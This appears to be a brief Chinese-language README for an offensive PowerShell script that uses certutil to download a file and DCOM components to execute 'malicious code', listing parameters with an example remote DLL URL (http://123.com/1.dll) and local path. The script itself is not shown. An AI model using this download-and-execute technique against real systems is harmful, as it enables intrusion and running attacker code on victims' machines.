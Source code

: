 # certuil-offer-Dcom.ps1
powershell调用certutil下载然后调用Dcom组件执行恶意代码


#参数说明：

-u

远程或本地恶意代码连接 例如：-u http://123.com/1.dll

-path 

下载到本地的路径 例如： -path c:\tmep

-fliename

下载的本地后的文件名 例如： -fliename 123.dll


